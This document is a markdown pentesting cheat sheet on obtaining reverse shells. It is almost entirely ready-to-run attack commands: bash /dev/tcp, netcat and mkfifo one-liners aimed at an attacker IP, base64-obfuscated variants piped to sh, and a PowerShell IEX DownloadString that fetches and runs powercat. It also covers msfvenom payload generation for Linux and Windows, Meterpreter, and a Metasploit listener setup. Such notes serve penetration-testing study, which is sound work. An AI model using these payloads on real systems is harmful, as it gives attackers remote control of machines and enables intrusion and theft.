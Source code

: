 ### Get Reverse Shell
- Best resource for reverse shell payloads → [Reverse shell cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- Best Reverse webshell code → `/usr/share/webshells` (asp,aspx,cfm,jsp,laudanum,perl,php)
- Reverse Shell Generator → [Link](https://www.revshells.com/)
- Some favourite reverse shell payload
	- `Kali> nc -nlvp 4444` → Start Listener on Attacker’s machine
    - **Linux**
	    - Confirm connectivity to Attacker’s machine
	        - Confirm by → Ping
	            - `Kali> sudo tcpdump -i tun0 icmp`
                - `Target> ping -c 10 <IP>` → If success then connecting
            - Confirm by → file transfer
	            - `Kali> python -m http.server 80`
                - `Target> wget <IP>/<file-name>` → If success then connecting
        - Request for Reverse shell
	        - `Target> /bin/bash -c "bash -i >& /dev/tcp/<Attacker-IP>/4444 0>&1"`
            - `Target> nc -e /bin/bash <Attacker-IP> 4444`
            - `Target> rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <Attacker-IP> 4444 >/tmp/f` → OpenBSD
            - `Target> rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc <Attacker-IP> 4444 >/tmp/f` → BusyBox
            - Base64 encoding method
	            - Base64 encode any payloads, let’s take → base64(`/bin/bash -c "bash -i >& /dev/tcp/<Attacker-IP>/4444 0>&1"`) gives us payload as - `L2Jpbi9iYXNoIC1jICJiYXNoIC1pID4mIC9kZXYvdGNwLzxBdHRhY2tlci1JUD4vNDQ0NCAwPiYxIg==`
                - `Target> echo "L2Jpbi9iYXNoIC1jICJiYXNoIC1pID4mIC9kZXYvdGNwLzxBdHRhY2tlci1JUD4vNDQ0NCAwPiYxIg==" | base64 -d | sh`
	                - OR
                - `Target> echo "L2Jpbi9iYXNoIC1jICJiYXNoIC1pID4mIC9kZXYvdGNwLzxBdHRhY2tlci1JUD4vNDQ0NCAwPiYxIg==" | base64 -d | bash`
            - MSFVenom Payload
	            - Staged → `msfvenom -p linux/x64/shell/reverse_tcp LHOST=<Attacker-IP> LPORT=4444 -f elf > shell.elf`
                - Stageless → `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<Attacker-IP> LPORT=4444 -f elf > shell.elf`
                - Payload for python script → `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<Attacker-IP> LPORT=4444  EXITFUNC=thread -f python`
        - If doesn’t work try to use
	        - If simple payload doesn’t work, try different variations of payloads
            - If those doesn’t work, try different language payloads
            - If those doesn’t work, try encoded payloads
            - If those doesn’t work, try to listen on different ports → 4444, 9000, 8080, 80, 443, ... (usually try open ports on target machine)
            - If those doesn’t work, try msfvenom payload
    - **Windows**
	    - `cmd> nc.exe -e cmd.exe <Attacker-IP> 4444` or `cmd> nc.exe -e powershell.exe <Attacker-IP> 4444`
        - Powercat
			```
			powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<Attacker-IP>/powercat.ps1'); powercat -c <Attacker-IP> -p 4444 -e powershell"
			```
            - `Base64` encode this payload with Character set as `UTF-16LE` with this tool - [Base64encoder](https://www.base64encode.org/)
            - `powershell.exe -nop -w hidden -e <base64-encoded-payload>`
        - MSFVenom Payload
	        - Staged → `Kali> msfvenom -p windows/shell/reverse_tcp LHOST=<Attacker-IP> LPORT=4444 -f exe > msf_exploit.exe`
            - Stageless → `Kali> msfvenom -p windows/shell_reverse_tcp LHOST=<Attacker-IP> LPORT=4444 -f exe > msf_exploit.exe`
- **Meterpreter**
	- Create MSFVenom Payload
	    - **Linux**
	        - Staged → `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<Attacker-IP> LPORT=4444 -f elf > shell.elf`
            - Stageless → `msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<Attacker-IP> LPORT=4444 -f elf > shell.elf`
            - Payload for python script → `msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<Attacker-IP> LPORT=4444  EXITFUNC=thread -f python`
        - **Windows**
	        - Staged → `Kali> msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Attacker-IP> LPORT=4444 -f exe > msf_exploit.exe`
            - Stageless → `Kali> msfvenom -p windows/meterpreter_reverse_tcp LHOST=<Attacker-IP> LPORT=4444 -f exe > msf_exploit.exe`
    - Start Listener
	    - `Kali> msfconsole`
        - `msf> use multi/handler`
        - `msf> set lhost <Attacker-IP>`
        - `msf> set lport 4444`
        - `msf> set payload <used-payload>`
        - `msf> run`
